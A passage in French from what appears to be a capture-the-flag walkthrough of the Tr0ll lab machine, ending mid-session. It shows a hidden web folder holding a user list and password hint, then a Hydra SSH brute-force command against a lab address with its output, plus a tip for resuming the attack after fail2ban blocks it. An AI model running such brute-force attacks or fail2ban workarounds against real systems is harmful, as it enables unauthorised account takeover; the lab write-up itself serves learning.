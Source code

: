 Une analyse rapide via *gdb* montre que le programme ne fait rien de plus qu'un *printf*.  

```plain
$ ./roflmao 
Find address 0x0856BF to proceed
```

Du coup on pointe le navigateur sur */0x0856BF/* où se trouvent deux sous-dossiers.  

Le fichier texte */0x0856BF/good\_luck/which\_one\_lol.txt* semble contenir une liste d'utilisateurs :  

```plain
maleus
ps-aux
felux
Eagle11
genphlux < -- Definitely not this one
usmc8892
blawrg
wytshadow
vis1t0r
overflow
```

et dans le dossier */0x0856BF/this\_folder\_contains\_the\_password/* on trouve un fichier qui à priori contient le mot de passe :  

![Dossier web tr0ll](https://raw.githubusercontent.com/devl00p/blog/master/images/troll.png)

le mot de passe devrait alors être *Good\_job\_:)* Mais évidemment aucun utilisateur n'accepte ce mot de passe.  

Une fois de plus on cherche un second sens et on se dit que le mot de passe doit être un mot présent dans la page.  

Ainsi le mot de passe s'est révélé être *Pass.txt*.  

J'ai rencontré quelques difficultés pour casser le mot de passe car *Hydra* semble avoir un bug dans la gestion du délai (option *-W*) entre deux connexions quand il s'agit d'un brute-force sur SSH. Et comme *fail2ban* est présent sur le système cible c'est vite devenu pénible.  

Heureusement il est possible de reprendre l'attaque via -R après avoir attendu que *fail2ban* nous re-accepte :  

```plain
$ ./hydra -L ../users.txt -P ../pass.txt -V -t 1 -f -W 6 ssh://192.168.1.78
Hydra v8.0 (c) 2014 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2014-08-22 08:06:36
[DATA] max 1 task per 1 server, overall 1 tasks, 10 login tries (l:10/p:1), ~10 tries per task
[DATA] attacking service ssh on port 22
[ATTEMPT] target 192.168.1.78 - login "maleus" - pass "Pass.txt" - 1 of 10 [child 0]
[ATTEMPT] target 192.168.1.78 - login "ps-aux" - pass "Pass.txt" - 2 of 10 [child 0]
[ATTEMPT] target 192.168.1.78 - login "felux" - pass "Pass.txt" - 3 of 10 [child 0]
[ATTEMPT] target 192.168.1.78 - login "Eagle11" - pass "Pass.txt" - 4 of 10 [child 0]
[ATTEMPT] target 192.168.1.78 - login "genphlux" - pass "Pass.txt" - 5 of 10 [child 0]
[ATTEMPT] target 192.168.1.78 - login "usmc8892" - pass "Pass.txt" - 6 of 10 [child 0]
[ATTEMPT] target 192.168.1.78 - login "blawrg" - pass "Pass.txt" - 7 of 10 [child 0]
[RE-ATTEMPT] target 192.168.1.78 - login "wytshadow" - pass "Pass.txt" - 7 of 10 [child 0]
[RE-ATTEMPT] target 192.168.1.78 - login "wytshadow" - pass "Pass.txt" - 7 of 10 [child 0]
[RE-ATTEMPT] target 192.168.1.78 - login "wytshadow" - pass "Pass.txt" - 7 of 10 [child 0]
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
$ ./hydra -R
Hydra v8.0 (c) 2014 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2014-08-22 08:08:31
```